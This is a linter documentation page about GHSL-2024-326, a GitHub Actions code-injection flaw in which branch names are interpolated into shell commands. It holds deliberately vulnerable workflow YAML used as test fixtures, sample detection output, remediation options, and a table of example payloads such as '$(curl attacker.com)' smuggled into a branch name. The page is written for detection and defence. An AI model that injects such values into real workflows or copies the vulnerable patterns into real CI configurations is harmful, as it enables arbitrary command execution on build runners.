

# GHSL-2024-326: Code Injection via Branch Name

## Summary

| Item | Value |
|------|-------|
| Advisory ID | GHSL-2024-326 |
| Severity | Critical |
| Affected Component | Actual (visual regression testing tool) |
| CVE | N/A |
| CWE | CWE-78 (Improper Neutralization of Special Elements used in an OS Command) |
| Reference | https://securitylab.github.com/advisories/GHSL-2024-325_GHSL-2024-326_Actual/ |

## Vulnerability Description

GHSL-2024-326 is a code injection vulnerability that occurs when untrusted input (such as a branch name) is directly interpolated into shell commands in GitHub Actions workflows.

An attacker can craft a malicious branch name containing shell metacharacters that execute arbitrary commands when the workflow runs.

## Attack Vector



## Vulnerable Code Patterns

### Pattern 1: Direct GitHub Event Context

```yaml
name: Code Injection Test

on:
  issue_comment:
    types: [created]

jobs:
  test:
    if: github.event.issue.pull_request
    runs-on: ubuntu-latest
    steps:
      # VULNERABLE: Direct interpolation of untrusted input
      - name: Push with PR title
        run: |
          echo "Processing: ${{ github.event.issue.title }}"
          git push origin HEAD:${{ github.event.pull_request.head.ref }}
```

### Pattern 2: Tainted Step Outputs via Known Actions

```yaml
name: Code Injection via Known Action

on:
  issue_comment:
    types: [created]

jobs:
  test:
    if: github.event.issue.pull_request
    runs-on: ubuntu-latest
    steps:
      # Known tainted action - outputs come from untrusted PR
      - name: Get PR branch
        id: comment-branch
        uses: xt0rted/pull-request-comment-branch@v2

      # VULNERABLE: Tainted output used in shell command
      - name: Push changes
        run: |
          git push origin HEAD:${{ steps.comment-branch.outputs.head_ref }}
```

### Pattern 3: Manual Taint via github-script

```yaml
steps:
  - name: Get PR branch info
    id: comment-branch
    uses: actions/github-script@v7
    with:
      script: |
        const pr = await github.rest.pulls.get({...});
        core.setOutput('head_ref', pr.data.head.ref);  # Tainted output

  # VULNERABLE: Using tainted step output
  - name: Push changes
    run: |
      git push origin HEAD:${{ steps.comment-branch.outputs.head_ref }}
```

## sisakulint Detection

sisakulint detects this vulnerability pattern with multiple rules:

### 1. code-injection-critical

```
script/actions/ghsl-2024-326-direct.yaml:17:32: code injection (critical):
"github.event.issue.title" is potentially untrusted and used in a workflow with
privileged triggers. Avoid using it directly in inline scripts. Instead, pass it
through an environment variable. [code-injection-critical]
```

### 2. Taint Tracking for Known Actions

```
script/actions/ghsl-2024-326-known-action.yaml:22:35: code injection (critical):
"steps.comment-branch.outputs.head_ref (tainted via github.event.pull_request.head.ref
(via action))" is potentially untrusted and used in a workflow with privileged triggers.
[code-injection-critical]
```

sisakulint tracks taint propagation through known actions like:
- `xt0rted/pull-request-comment-branch`
- `actions/github-script` (when outputting PR data)

### 3. argument-injection-critical

```
script/actions/ghsl-2024-326-direct.yaml:18:35: argument injection (critical):
"github.event.pull_request.head.ref" is potentially untrusted and used as
command-line argument to 'git' in a workflow with privileged triggers.
[argument-injection-critical]
```

### 4. dangerous-triggers-critical

```
script/actions/ghsl-2024-326-direct.yaml:6:3: dangerous trigger (critical):
workflow uses privileged trigger(s) [issue_comment] without any security mitigations.
[dangerous-triggers-critical]
```

## Untrusted Inputs

The following GitHub context variables are considered untrusted when coming from external contributors:

| Context | Risk Level | Example Attack |
|---------|------------|----------------|
| `github.event.pull_request.head.ref` | Critical | `$(curl attacker.com)` |
| `github.event.pull_request.title` | Critical | `"; malicious-command #` |
| `github.event.issue.title` | Critical | Shell injection payloads |
| `github.event.issue.body` | Critical | Multi-line injection |
| `github.event.comment.body` | Critical | Command injection |
| `steps.*.outputs.*` (from tainted actions) | Critical | Propagated taint |

## Remediation

### Option 1: Use Environment Variables (Recommended)

```yaml
- name: Push changes
  env:
    HEAD_REF: ${{ steps.comment-branch.outputs.head_ref }}
  run: |
    # Validate the ref first
    if [[ ! "$HEAD_REF" =~ ^[a-zA-Z0-9/_.-]+$ ]]; then
      echo "Invalid branch name"
      exit 1
    fi
    git push origin HEAD:"$HEAD_REF"
```

### Option 2: Use Intermediate Actions

```yaml
- name: Push changes
  uses: ad-m/github-push-action@v0.6.0
  with:
    branch: ${{ steps.comment-branch.outputs.head_ref }}
```

### Option 3: Input Validation

```yaml
- name: Validate branch name
  run: |
    BRANCH="${{ steps.comment-branch.outputs.head_ref }}"
    if [[ "$BRANCH" =~ [^a-zA-Z0-9/_.-] ]]; then
      echo "::error::Invalid characters in branch name"
      exit 1
    fi
```

## Test Files

- Direct injection: `script/actions/ghsl/ghsl-2024-326-direct.yaml`
- Known action taint: `script/actions/ghsl/ghsl-2024-326-known-action.yaml`
- Combined pattern: `script/actions/ghsl/ghsl-2024-325-326.yaml`

## References

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2024-325_GHSL-2024-326_Actual/)
- [GitHub Actions Security Hardening](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OWASP CI/CD Security: Poisoned Pipeline Execution](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)
- [Keeping your GitHub Actions and workflows secure Part 2](https://securitylab.github.com/resources/github-actions-untrusted-input/)
